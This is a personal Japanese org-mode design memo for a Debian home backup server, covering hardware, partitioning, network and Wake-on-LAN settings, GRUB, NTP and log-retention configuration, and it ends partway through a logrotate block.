 -*- coding: utf-8; no-check-type-miss: t; -*-
* Architecture
** KI
   [Server:ki (king)]
*** Policy
**** この文書について
	 この文書は、個人用途のサーバー設計書である。

**** Main Policy
	 -   方針:
		 この文書は、個人的な設定、運用方針の再確認用として使用する。

	 -   設計:
		 個人用途に適した設計を行う。
		 企業や団体、組織用ではない。

	 -   用途:
		 当面 ファイルの保存、レポジトリ、外部記憶装置、
		 バックアップサーバー、とする。
		 外出先から Data にアクセスするインフラを整備。
		 機能は、随時追加して行く。
		 今現在 (2011 年 7 月 29 日) 、 web サーバーは運用するつもりはない。

**** Security Policy
	 [[security_policy1][security_policy]]

*** Device
**** ケース
	 - [ ] エアフローを考え排気は上になるようにする。

	 - [ ] 鍵付きケース
		   COMS clear されることを避ける。

	 - [ ] BIOS で chassis intrusion を設定しケースの開閉を監視
		   開閉されたら shutdown

	 - [ ] 埃対策
		   レンジフィルターにスプレーのりを吹き付けて吸気口に配置。

	 - [ ] 騒音対策

**** マザーボード
	 - BIOS: WOL 対応 RAID 対応
**** network
***** 回線
	  - 回線業者 光通信ができるところ

***** プロバイダ (保留)
	  -  固定 IP

***** network カード
	  - linux kernel がドライバを備えている物。
		kernel のバージョンアップによってサポートされなくなりそうなものは使わない。
		少々高くてもメジャーな物を選択。
		(cf.2011 年 7 月 15 日 [[http://www.asahi-net.or.jp/~aa4t-nngk/ipttut/output/examplenatmachine.html][Iptables チュートリアル 1.2.2 Chapter 4 ネットワークアドレス変換とは 4.3.1 NAT マシン構築に必要な物]])
****** MAC
	   - 00:16:17:1B:01:50
***** 有線ケーブル
# 無線 LAN は盗聴の可能性、速度低下、不安定であり有線に比べてメリットがないので使用しない。

	  カテゴリー 6 単線仕様 ストレートを使用。

	  カテゴリー:

	  カテゴリー 5e 　伝送帯域 100MHz 、 10Base-T/100base-TX/1000base-T に対応

	  カテゴリー 6 　伝送帯域 250MHz 、 10base-T/100Base-TX/1000base-TX に対応

	  導体構造  :
	  単線仕様    導体が 1 本の太い銅線で構成されている。
      電気抵抗が小さいので通信特性が高い、また安価である。
      長さにかかわらずこの構造のケーブルを使うのが基本だが、
      極端な曲げに弱いので注意する必要がある。

	  ヨリ線仕様　導体が 7 本の細い銅線で構成されている。
      ケーブル自体の柔軟性が高く取り回しが容易。
      狭いスペースでの短い配線に向いている。
      逆に 10m 以上の長いケーブルは通信特性の面で不利。

**** Watchdog
   	 システムから応答がなくなると再起動を試みる。

**** 消費電力 (40W:保留)
   	 ワットチェッカーで計測
   	 アイドル時 :
   	 高負担時   :

   	 2011 年 06 月 30 日現在 関西電力料金単価
   	 従来電灯 A 15kWh 超過 120kWh まで  1kWh    19 円 05 銭
     120kWh 超過 300kWh まで 1kWh    24 円 21 銭
	 300kWh 超過分         1kWh    25 円 55 銭
   	 1kWh 20 円と仮定 1wh = 0.020 円

**** ハードウェアの点検
	 PC 部品の故障は初期不良であることが多い。
	 バックアップとしてハードウェアの 2 重化などをした場合は慣らし運転が必要。

	 - [ ] memtest86+

**** 耐震対策
*** General
**** OS
- Distribution: Linux Debian 7 wheezy
- kernel:       linux 3.2.0-4-amd64
****** module
- expert install で汎用化を選択

**** Partition
	 :PROPERTIES:
	 :SUMMARY:  partition1
	 :END:

## データサーバー用途で使う。
## 今現在 (2011 年 7 月 26 日) ウェブサーバーとしては考えていない。
## /var パーティションの容量は余裕を持って大きくとる。
## debian は/var/cache/apt/archives にパッケージを download する為であり、
## また、セキュリティを重視するためにも log ファイルのある/var を大きくとる。
##
## /tmp, /home, /var/tmp などの一般ユーザーが書き込める領域は
## "/" のリソースを圧迫する可能性があるので分けた方がよい。
##

## RAID1
## System 30G

## アクセスの多いパーティションはディスクの先頭 (外側) に配置
## パーティションは作った順番で外側から配置される。 (cf.2011 年 7 月 15 日 FreeBSD ハンドブック [[http://www.freebsd.org/doc/ja/books/nandbook/configtuning-initial.html][初期設定]]) (cf. 2011 年 7 月 15 日 [[http://codecraft.jp/tips/index.php?Linux%2F%A5%D1%A1%BC%A5%C6%A5%A3%A5%B7%A5%E7%A5%F3%CA%AC%B3%E4%CE%E3][ Linux/ パーティション分割例 - CodeCraft tips]])


[[file:/data/archive/reference/etc/partition_info_for_server/partition_architecture_memo.pdf][partition_memo.pdf]]

Western digital: 500G  | Win | Windata | server | data |
Hitachi        : 500G  |            Raid 1             |
Western digital: 250G  | winB | temp |  swap  | backup |

- /boot           200M    ext3
# server partition 30G LVM
- /var              6G    ext3   defaults,nodev
- /                 4G    ext3
- /usr              6G    ext3   defaults,nodev
- /usr/local      1.5G    ext3   defaults,nodev
- /home             6G    ext3
- /tmp            6.5G    ext3   defaults,nosuid,noexec,nodev 0 2
- /data  crypt    300G    ext3   defaults,nosuid,noexec,nodev 0 2 (未達)

# backup crypt partition
- /backup                   156G    ext3   defaults,nosuid,noexec,nodev 0 2

cf. [[http://www.debian.org/releases/stable/i386/apcs02.html.ja][Debian GNU/Linux インストールガイド- C.2. ディレクトリツリー]]
cf. [[http://www.debian.org/releases/stable/i386/apcs03.html.ja][Debian GNU/Linux インストールガイド- C.3. お勧めするパーティションルール]]

**** Host Name
- /etc/hostname
  ki
  (cf. [[file:~/mydoc/linux/etc/how_to_define_hostname][how_to_define_hostname]])
**** IP & Domain
***** Static Global IP
	  - ***.***.***.***
***** Static local IP
      :PROPERTIES:
      :SUMMARY:  interface1
      :END:

	  - 192.168.1.123

		# nano /etc/network/inerfaces

# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces (5).

# The loopback network interface
auto lo
iface lo inet loopback

# The primary network interface
allow-hotplug eth0
#iface eth0 inet dhcp

# Static IP address
iface eth0 inet static
		ethernet-wol gb # for WOL
		address 192.168.1.123
		netmask 255.255.255.0
		network 192.168.1.0
		broadcast 192.168.1.255
		gateway 192.168.1.1
        # dns-* options are implemented by the resolvconf package, if installed
        dns-nameservers 192.168.1.1

# The primary network interface
allow-hotplug eth1
iface eth1 inet static
        ethernet-wol gb  # for WOL
        address 192.168.1.123
        netmask 255.255.255.0
        network 192.168.1.0
        broadcast 192.168.1.255
        gateway 192.168.1.1
        # dns-* options are implemented by the resolvconf package, if installed
        dns-nameservers 192.168.1.1


		# /etc/init.d/networking restart
		or
		# ifdown eth0 && ifup eth0
***** WOL
http://ah-ithasbeenforgotten.blogspot.jp/2015/04/jessie-wakeonlan.html


wheezy では /etc/network/interfaces  に ethernet-wol g とか書いておけばよかったのだが、 jessie ではどうもこれがうまく効いてない。

sysvinit から systemd-networkd へ変更したのもあって、 wakeonlan の設定も systemd から呼び出すことにした。

 (他に udev の方で設定することも出来るらしいが udev 設定するのは見通しわるくなるしあまり気乗りしない)

具体的には /etc/systemd/system/wol@.service というファイルを用意する 


@on-jessie:~$ sudo vi /etc/systemd/system/wol@.service

/etc/systemd/system/wol@.service

[Unit]
Description=Wake-on-LAN for %i
Requires=network.target
After=network.target

[Service]
ExecStart=/sbin/ethtool -s %i wol g
Type=oneshot

[Install]
WantedBy=multi-user.target


wheezy から jessie へ dist-upgrade した環境の場合、テストするには

@on-jessie:~$ sudo systemctl restart networking.service

して
@on-jessie:~$ sudo ethtool eth0
してみる。



/sbin/ethtool コマンドがないならインストールする。
@on-jessie:~$ sudo apt-get install ethtool
使ってるネットワークインターフェイスがどのタイプの WakeOnLan をサポートしているのかは、 ethtool コマンドで調べられる。

wakeonlan のタイプには p (phy),u (unicast),m (multicast),b (broadcast),a (arp),g (MagickPacket&#x2122;),s (SecureOn&tm; MagickPacket&#x2122;),d がある。

@on-jessie:~$ man ethtool

@on-jessie:~$ sudo ethtool eth0
    [...] 
    Supports Wake-on: umbg
    Wake-on: g

wakaonlan パッケージや etherwake を使うと g とか s で LAN 内の特定のマシンを起動できるので便利。

また /etc/ethers に MAC とマシン名の対応、コメントを書いておくと MAC ではなくマシン名で呼び出せるので便利。

 追記 2015-08-24

jessie を dist-upgrade ではなく、クリーンインストールした環境では上記では不十分で、以下が必要。

テストするには、 (eth0 は該当インターフェイス名、 wol@.service ファイルの %i に置き換えられる)

sudo systemctl start wol@eth0.service

うまく行ったなら、

sudo systemctl enable wol@eth0.service 

***** Domain
**** User
	 - t1
*** Boot
**** BIOS
	 - RAID1 /data パーティションに設定
	 - CD/FDD/USB からの起動を禁止。
	 - PassWord 設定。
	 - CPU/FAN の稼働率を低めに設定。
***** WOL
	  - # BIOS の"resume by pci device" の項目を enable にする。
		(cf.. [[http://www.edmondweblog.com/index.php/2011/01/06/wake-on-lan-wol-su-debian-squeeze/][Wake on LAN (WOL) su Debian Squeeze | EDMOND'S WEBLOG]])
		(cf.. [[http://www.stained-g.net/wiki/shinichiro/pukiwiki.php?Wake%20on%20LAN%20%A4%A2%A4%EC%A4%B3%A4%EC][Wake on LAN あれこれ - Shinichiro ' s Wiki]])
# debian は default で WOL が有効になっていない
# 起動時に有効にする
	  - # [[apt-get_install][apt-get install ethtool]]
		# nano [[interface1][/etc/network/interface]]
		iface eth0 inet static
		ethernet-wol g  # 追加


****** init.d
	   - # nano /etc/init.d/wol
		 ## /etc/init.d/wol
		 ethtool -s eth0 wol g
		 exit

		 # chmod +x /etc/init.d/wol
		 # sudo update-rc.d wol defaults


****** set by Hand
	   - # ethtool -s eth0 wol g
****** check setting
	   - # ethtool eth0
****** windows
	   - devmgmt.msc
		 Realtek RTL8139/810x Family Fast Ethernet NIC を開く。
		 詳細設定
		 "APM モードを使ったウェークアップ" 無効
		 "ARP/PING でウェークアップ" 無効
		 "LAN 上のウェークアップのシャットダウン" 有効
		 電源の管理
		 全てにチェックを入れる。
**** GRUB
	 - /boot/grub/grub.cfg
# 最後に必ず update-grub
***** /etc/default/grub
      :PROPERTIES:
      :SUMMARY:  etc-default-grub.cfg
      :END:

	  - # orig /etc/default/grub

	  - GRUB_TIMEOUT=0
	  - GRUB_HIDDEN_TIMEOUT=0            # メニュー非表示
	  - GRUB_HIDDEN_TIMEOUT_QUIET=true   #
	  - GRUB_CMDLINE_LINUX_DEFAULT="quiet vga=791"
***** grub menu の順番変更
	  - デュアルブートディスクで OS のデフォルトで起動する順番を変更。
# windows が入った PC 後に linux をインストールすると
# linux が優先的に起動する。
#
# menu の順番は/etc/grub.d/ の中のファイルの優先順位を変る。
# 優先順位は数字、アルファベットの順番で決まる。

****** Desktop mode / windows を優先して起動する。
   	   # ls /etc/grub.d/
   	   00_header        10_linux      30_os-prober  41_custom
   	   05_debian_theme  20_linux_xen  40_custom     README

   	   10_linux が linux の OS メニューを生成する。
   	   30_os_prober が他の OS (windows) のメニューを生成する。
   	   ファイルの先頭の若い番号順にファイルが読み込まれて 1 つの/boot/grub/grub.cfg が生成される。
   	   よって、 windows をデフォルトで起動したい場合は、

   	   # mv /etc/grub.d/30_os-prober /etc/grub.d/06_os-prober
   	   # update-grub

****** Server mode / linux を優先して起動する。
# windows の後に linux を install すると後者が優先的に起動する。
# 設定を弄った場合は下記の状態に戻す。

	   # ls /etc/grub.d/
	   00_header        10_linux      30_os-prober  41_custom
	   05_debian_theme  20_linux_xen  40_custom     README

	   # update-grub

***** grub の画面を標準に戻す。
      :PROPERTIES:
      :SUMMARY:  /etc/grub.d1
      :END:

	  - # rm /etc/grub.d/05_debian_theme

***** GRUB single user にパスワード
      :PROPERTIES:
      :SUMMARY:  GRUB password
      :END:

# メニュー項目編集から single user mode に入れるので
# 悪戯防止程度と考えておく
# password が暗号化する場合は password_pbkdf2 t1 grub.pbkdf2.sha512.10000.<hash> とする。
# 2011 年 7 月 10 日現在 grub-mkpasswd-pbkdf2 が正しく機能しないので平文のパスワードにする。
	  - # nano /etc/grub.d/10_linux
		echo >> EOF
		set superusers="t1"
		password t1 <password>
		EOF

		# nano 10_linux
		if ${recovery}; then
		title="$(gettext~~~~~~~~~~.......
		CLASS="${CLASS} --users t1"   # 追加
		else

**** /etc/fstab
	 - # orig /etc/fstab
***** 一般ユーザーで usb mount
      :PROPERTIES:
      :SUMMARY:  usb_mount1
      :END:

	  - # mkdir /media/usb
		# nano /etc/fstab
		/dev/sdc1  /media/usb auto noauto,rw,user,iocharset=utf8 0 0

		# mount /media/usb

**** /etc/inittab
	 :PROPERTIES:
	 :SUMMARY:  etc-inittab
	 :END:

	 - # orig /etc/inittab

# check runlevel
	 - # runlevel

# comment out getty
	   1:2345:respawn:/sbin/getty 38400 tty1
	   2:23:respawn:/sbin/getty 38400 tty2
	   3:23:respawn:/sbin/getty 38400 tty3
#4:23:respawn:/sbin/getty 38400 tty4
#5:23:respawn:/sbin/getty 38400 tty5
#6:23:respawn:/sbin/getty 38400 tty6

**** /etc/rcS.d/
**** /etc/rc<n>.d/
**** /etc/init.d/
***** (保留) 起動時、/etc/init.d/ の並列処理化
      :PROPERTIES:
      :SUMMARY:  etc-default-rcS1
      :END:

# read /usr/share/doc/insserv/README.debian
	  - # orig /etc/default/rcS
		# nano /etc/default/rcS
		CONCURRENCY=startpar

# none     = 並列処理なし
# startpar = 同一順位番号間の並列処理
# makefile = 完全な並列処理

**** fsck
	 (cf.. [[http://www.itmedia.co.jp/help/howto/linux/redhat7_2_ext3/03.html][エンタープライズ: Linux How-To   第 2 回:「 ext2 を使いこなす」]])

	 - # tune2fs -l /dev/<fs>
	 - # tune2fs -c 180 /dev/mapper/VG-LVdata
	   # tune2fs -c 180 /dev/mapper/VG-LVhome
	   # tune2fs -c 180 /dev/mapper/VG-LVtmp
	   # tune2fs -c 180 /dev/mapper/VG-LVusr
	   # tune2fs -c 180 /dev/mapper/VG-LVusrlocal
	   # tune2fs -c 180 /dev/mapper/VG-LVvar
	   # tune2fs -c 180 /dev/mapper/VG-LVrootfs
	   # tune2fs -c 180 /dev/mapper/backupfs_crypt
*** System
**** kernel patches
	 - selinux
	 - linux trustees
	 - IPSEC
**** system
***** Locale
      :PROPERTIES:
      :SUMMARY:  change_locale1
      :END:

# check locale
	  - # locale -a
# change locale
		# dpkg-reconfigure locales
		en_US.UTF-8
***** /etc/default/rcS
	  - # nano /etc/default/rcS
		UTC=yes

***** Login Shell
      :PROPERTIES:
      :SUMMARY:  change_login_shell1
      :END:
	  - zsh
	  - # [[apt-get_install][apt-get install zsh]]
****** Change login shell
# check login shell
	   - # echo $SHELL
	   - # cat /etc/passwd

# change login shell
	   - # chsh
		 Password:
		 Changing theogin shell for root
		 Enter the new value, or press ENTER for the default
		 Login Shell [/bin/sh]: /bin/zsh

	   - or: edit passwd

***** /etc/apt/apt.conf.d/30disable-recommends
      :PROPERTIES:
      :SUMMARY:  etc-apt-apt.conf
      :END:
# recommends をインストールさせない。
APT
{
Install-Recommends "false";
}

***** aptitude purge
      :PROPERTIES:
      :SUMMARY:  aptitude_purge
      :END:

	  - laptop-detect
***** apt-get install
      :PROPERTIES:
      :SUMMARY:  apt-get_install
      :END:
	  - # apt-get update
		# apt-get install [[file:script/init.py][install_list]]

# manual install
	  - tripwire

# contrib
	  - sdic sdic-edict sdic-gene95

# non-free
	  - emacs23-common-con-dfsg

# develop
	  - nasm binutils gcc libc6-dev python-doc python-ropemacs python-paramiko dpkg-dev gdb

Added: 2013 年 09 月 12 日
  unattended-upgrades debsums
  gcc g++ binutils dpkg-dev nasm build-essential make automake m4 patch
  logrotate chkconfig cryptsetup sudo ethtool anacron less wakeonlan
  ntp ulogd subversion
  rsync ntpdate nmap tcpdump traceroute
  python-pip python-dev gzip p7zip-full unzip zip gawk zsh lsof finger
manual:
  localepurge


***** apt-get install localepurge
# chose en en_US.UTF-8 ja ja.UTF-8
	  - # localepurge
***** sudo のみで権限実行 root 化禁止 (保留)
	  - sudo をインストール、一般 user に sudo 権限を与える。
		# nano /etc/shadow
		root の行の: の 2 つ目を"!" にする。
		"!"はログイン禁止

****** shutdown on user (保留)
	   - # visudo
# 最後に追記 root よりも上に記述すると反映されない。
		 t1	 ALL=NOPASSWD: /sbin/shutdown,/sbin/halt,/sbin/reboot

		 $ sudo /sbin/{shutdown,halt,reboot}

		 [man sudoers]

***** change default editor
	  - # update-alternatives --config editor
***** /etc/login.defs
      :PROPERTIES:
      :SUMMARY:  etc-login.defs
      :END:
	  - # orig /etc/login.defs
	  - # nano /etc/login.defs

		LOG_OK_LOGINS yes
		SULOG_FILE /var/log/sulog
# remove     /usr/local/games:/usr/games
		ENV_PATH
		UMASK 077
		MD5_CRYPT_ENAB  yes

***** /etc/profile
	  - # orig /etc/profile
	  - # nano /etc/profile

#if [ "`id -u`" -eq 0 ]; then
		PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
#else
#  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
#fi
		export PATH

***** delete games line
	  - /etc/passwd /etc/passwd- /etc/group /etc/group- /etc/shadow /etc/shadow-
		/etc/zsh/zshenv /etc/manpath.config
***** Ctrl+ALT+DEL のリブートを制限 (保留)
	  - # grep ctraltdel /etc/inittab
# shutdown に-a オプションが付いているか確認
# 付いていれば/etc/shutdown.allow を読みに行く。
		ca:12345:ctrlaltdel:/sbin/shutdown -t1 -a -r now

		# nano /etc/shutdown.allow
		t1

***** static arp (保留 実験必要)
	  - command line
		# arp -s <host_name> <hdwr_addr>

	  - # nano /etc/ethers
		<mac_address> <ip_num>
		00:1d:73:1a:c0:9c 192.168.1.1

**** network
***** disable ipv6
      :PROPERTIES:
      :SUMMARY:  disable_ipv61
      :END:

	  - # echo net.ipv6.conf.all.disable_ipv6=1 > /etc/sysctl.d/disableipv6.conf
		# sysctl -p  # 即時反映

	  - # nano /etc/hosts
# comment out ipv6 line

	  - # orig /etc/ssh/sshd_config
		# nano /etc/ssh/sshd_config
		AddressFamily inet  # disable ipv6

		# Remove debian's version of Banner
		DebianBanner no


	  - # orig /etc/default/ntp
		# nano /etc/default/ntp
		NTPD_OPTS='-4 -g'

	  - # nano /etc/exim4/update-exim4.conf.conf
		dc_local_interfaces='127.0.0.1'
		update-exim4.conf
		rm /var/log/exim4/paniclog
***** ntp
****** ntpd
       :PROPERTIES:
       :SUMMARY:  etc-ntp.conf
       :END:

## 基本的にプロバイダの ntp サーバーを使うこと。
## クライアントからホップ数が少ないサーバーがよい。
## 大阪府立大学: eagle.center.osakafu-u.ac.jp
## (独) 情報通信研究機構: ntp.nict.jp
## アクセス制限 1 時間平均 20 回 (1 日合計 480 回) まで
## (cf. 2011 年 7 月 16 日 [[http://www2.nict.go.jp/w/w114/tsp/PubNtp/qa.html#q1-4][ 日本標準時プロジェクト公開 NTP FAQ]])

	   - # [[apt-get_install][apt-get install ntp]]
		 # orig ntp.conf
		 # nano /etc/ntp.conf
		 statsdir /var/log/ntpstats/    # for log

# -4 は強制的に ipv4 を使う。
# iburst は起動時に多数ポーリングし、初期化時間を短縮する。
# 4 分から 17 分までの間隔で通信。
# minpoll 2**8  / 60 =  4 min
# maxpoll 2**10 / 60 = 17 min
# 応答が速い順
		 server -4 eagle.center.osakafu-u.ac.jp minpoll 8 maxpoll 10 iburst # 大阪府立大学
		 # server -4 ntp.bbtec.net minpoll 8 maxpoll 10 iburst                # provider
		 server -4 ntp.nict.jp minpoll 8 maxpoll 10 iburst                 # (独) 情報通信研究機構

# disable ipv6
# restrict -6 default kod notrap nomodify nopeer noquery # comment out
# restrict ::1 # comment out

# ntp でファイヤーウォール
# LAN 内からのアクセス許可
		 restrict 192.168.1.0 mask 255.255.255.0 nomodify notrap

# IP は変更される可能性があるので注意
# eagle.center.osakafu-u.ac.jp
		 restrict 157.16.213.52 mask 255.255.255.255 nomodify notrap noquery

# ntp.bbtec.net
		 # restrict 219.188.200.128 mask 255.255.255.255 nomodify notrap noquery

# ntp.nict.jp
		 restrict 133.243.238.244 mask 255.255.255.255 nomodify notrap noquery
		 restrict 133.243.238.243 mask 255.255.255.255 nomodify notrap noquery
		 restrict 133.243.238.164 mask 255.255.255.255 nomodify notrap noquery
		 restrict 133.243.238.163 mask 255.255.255.255 nomodify notrap noquery

		 - # service ntp restart
# check ntp
		 - # ntpq -p

## 問題点
		   [[file:~/Doc/memo/negative_list::ntp.conf にて restrict で][restrict によるファイアーウォールの問題 negative_list]]

****** ntpdate クライアントで時刻合わせ (使用しない)
	   - # apt-get install ntpdate
		 # nano /etc/default/ntpdate
		 NTPDATE_USE_NTP_CONF=no
		 NTPSERVERS="ntp.nict.jp ntp.jst.mfeed.ad.jp"
# nict.jp のホームページを見ると頻繁ではないが
# 障害が何度かあるようなので、念のために予備で mfeed.ad.jp も追加。
# mfeed.ad.jp も nict.jp から時間を取得しているよう...

# (独) 情報通信研究機構: ntp.nict.jp
# アクセス制限 1 時間平均 20 回 (1 日合計 480 回) まで
# (cf. 2011 年 7 月 16 日 [[http://www2.nict.go.jp/w/w114/tsp/PubNtp/qa.html#q1-4][ 日本標準時プロジェクト公開 NTP FAQ]])

# インターネットマルチフィード株式会社: ntp.jst.mfeed.ad.jp

		 (cf. $ man ntpdate)
		 (cf. $ man ntpdate-debian)
		 (cf. [[http://somenotes.seesaa.net/article/117217642.html][NTP で時刻合わせ、 cron の設定 (Debian/lenny): プログラミング関係ごちゃごちゃメモ]]; 2011 年 7 月 13 日)

# /etc/cron.hourly で 1 時間ごとに自動化
		 - # mkdir /var/log/ntp
		 - # touch /var/log/ntp/ntp.log
		 - # nano /etc/cron.hourly/ntpdate
		   #!/bin/sh

		   #/etc/cron.hourly/
		   #log は syslog を通さず/var/log/ntp.log に保存。
		   /usr/sbin/ntpdate-debian >> /var/log/ntp.log

		 - # chmod +x /etc/cron.hourly/ntpdate

# logrotate
****** ntp logrotate
       :PROPERTIES:
       :SUMMARY:  ntp-logrotate
       :END:

## 問題発生時に保守しやすくする為、月ごとにフォルダに分け保存する。
## ntp で log を取るために/etc/ntp.conf を編集
	   - # [[etc-ntp.conf][nano /etc/ntp.conf]]

## ntp の log は作られて 1 週間過ぎると削除される。
## それを行っているのが下記の script のコマンド。
## それをコメントアウトする。
	   - [[ntpstats/$year/$month][logrotate ntp]]

***** /etc/hosts
      :PROPERTIES:
      :SUMMARY:  etc-hosts
      :END:

	  192.168.1.1     ro    # default gateway (router)
	  192.168.1.100   m     # haha
	  192.168.1.122   home  # home
	  192.168.1.130   qu    # desktop
	  192.168.1.123   ki    # server

# for test server
	  192.168.1.111   pa
	  192.168.1.112   pa2
	  192.168.1.113   pa3

**** Log
***** log の重要性
****** 不正アクセス
## log 情報なしに不正侵入の検知は難しい。
## 又、 log 情報なしに不正侵入の証明も難しい。
# もしコンピューターが踏み台にされ、相手に被害を与えてしまった時、
# 不正アクセスによるものだという証明をする必要がある。

****** 保守点検
***** 予備知識
	  /var/log/messages  一般的なシステムに関する情報
	  /var/log/cron      定期的に実行される処理の結果に関する情報
	  /var/log/mail.log  メールに関する情報
	  /var/log/auth.log  セキュリティに関する情報
	  /var/log/spooler   印刷やニュースに関する情報
	  /var/log/boot      OS 起動時に関する情報
	  /var/log/lastlog   ユーザの最終ログイン時間   閲覧するには lastlog コマンド
	  /var/log/utmp      現在ログインしているユーザ情報  閲覧するには w コマンド
	  /var/log/wtmp      ログイン履歴        閲覧するには last コマンド
***** 信頼性確保
## log の信頼性向上の為に ntp で外部 ntp サーバーとの同期をする。
## 同期したログを長期保存してくれるところが良い。
## 外部 ntp サーバーの迷惑とならない程度に ntp の同期の間隔は短いものがよい。

***** 保存期間
## 不正アクセスに関わる log は基本的に永久保存。
## しかし、ディスク容量が足りない場合は、最低 5 年保存。
## 保存期間の根拠は、不正アクセスの時効が犯行が終わった時点から 3 年である為
## 余裕を持って 5 年とする。
## (cf. 2011 年 7 月 26 日 [[file:~/Doc/law.org::時効は、人を死亡させた罪であつて][刑事訴訟法-第二百五十条]] 、第二百五十三条)
## (cf. 2011 年 7 月 26 日 [[file:~/Doc/law.org::第八条　次の各号の一に該当する者は][不正アクセス行為の禁止等に関する法律-第八条-第九条]])

	  不正アクセス関連: 永久保存、若しくは 5 年
	  保守& その他    : それぞれにあわせて適用

***** 長期保存対象 (不正アクセス関連)
## 長期保存する log は主に
## システム                                   = syslog
## 起動                                       = syslog
## shutdown                                   = user
## ログイン履歴                               = auth
## アクセスログ                               = iptables
## ログの信憑性を証明する ntp ログを保存する。 = ntp

****** rotate daily
	   - [[etc/logrotate.d/rsyslog][rsyslog]]          : /var/log/syslog /var/log/rsyslog/
	   - [[etc/logrotate.d/ulogd][ulogd (iptables)]]  : /var/log/iptables/iptables.log
	   - [[etc/cron.daily/ntp][ntp]]              : /var/log/ntpstats/

****** rotate monthly
	   - [[etc/logrotate.d/auth][auth]]             : /var/log/auth.log
	   - [[etc/logrotate.d/cron][cron]]             : /var/log/cron.log

****** rotate yearly
	   - [[etc/logrotate.d/user][user]]             : /var/log/user.log

***** 保守点検対象
****** rotate monthly
******* /etc/logrotate.d/etc
		/var/log/mail.info
		/var/log/mail.warn
		/var/log/mail.err
		/var/log/mail.log
		/var/log/daemon.log
		/var/log/kern.log
		/var/log/lpr.log
		/var/log/debug
		/var/log/messages
		{
		rotate 6
		monthly
		missingok
		notifempty
		compress
		delaycompress
		sharedscripts
		postrotate
		invoke-rc.d rsyslog reload > /dev/null
		endscript
		}

***** 改竄対策 (保留)
## [[(log の重要性]]) の通り log なしに不正侵入の証明が困難である。
## しかし、不正侵入者は侵入発覚を避ける為に log 記録の改竄、削除を試みると考えられる。
## この改竄、削除から保護する必要がある。

	  chattr +a
	  chattr +i

***** logrotate.conf
# see "man logrotate" for details
# rotate log files weekly
	  weekly

# keep 4 weeks worth of backlogs
	  rotate 4

# create new (empty) log files after rotating old ones
	  create

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
	  include /etc/logrotate.d

# no packages own wtmp, or btmp -- we'll rotate them here
	  /var/log/wtmp {
      rotate 12
      monthly
      missingok
      dateext
      dateformat -%Y-%m
      create 0664 root utmp
      postrotate
	  nameformat="wtmp-????-??"
	  if [ -e /var/log/$nameformat ]; then
	  for file in $(ls /var/log/$nameformat); do
	  year=`ls $file | cut -d "-" -f 2`
	  month=`ls $file | cut -d "-" -f 3`
	  logdir=/var/log/wtmplog/$year/$month
	  mkdir -p $logdir
	  mv $file $logdir
	  /usr/bin/chattr +i $logdir/$nameformat
	  if [ -e /var/log/$nameformat ]; then
	  continue
	  else
	  break
	  fi
	  done;
	  fi
      endscript
	  }

	  /var/log/btmp {
      rotate 12
      monthly
      missingok
      dateext
      dateformat -%Y-%m
      create 0660 root utmp
      postrotate
	  nameformat="btmp-????-??"
	  if [ -e /var/log/$nameformat ]; then
	  for file in $(ls /var/log/$nameformat); do
	  year=`ls $file | cut -d "-" -f 2`
	  month=`ls $file | cut -d "-" -f 3`
	  logdir=/var/log/btmplog/$year/$month
	  mkdir -p $logdir
	  mv $file $logdir
	  /usr/bin/chattr +i $logdir/$nameformat
	  if [ -e /var/log/$nameformat ]; then
	  continue
	  else
	  break
	  fi
	  done;
	  fi
      endscript
	  }

# system-specific logs may be configured here

***** /var/log/
****** rsyslog
******* /etc/logrotate.d/rsyslog
		:PROPERTIES:
		:SUMMARY:  etc-logrotate.d-rsyslog
		:END:

		/var/log/syslog
		{
		rotate 7
		daily
		missingok
		delaycompress
		compress
		dateext
		dateformat -%Y-%m-%d
		prerotate
		/usr/bin/chattr -a /var/log/syslog
		endscript
		postrotate
	    nameformat="syslog-????-??-??.gz"
		if [ -e /var/log/$nameformat ]; then
		for file in $(ls /var/log/$nameformat); do
		year=`ls $file | cut -d "-" -f 2`
		month=`ls $file | cut -d "-" -f 3`
		logdir=/var/log/rsyslog/$year/$month
		mkdir -p $logdir
		mv $file $logdir
		/usr/bin/chattr +i $logdir/$nameformat
		if [ -e /var/log/$nameformat ]; then
       	continue
		else
		break
		fi
		done;
		fi

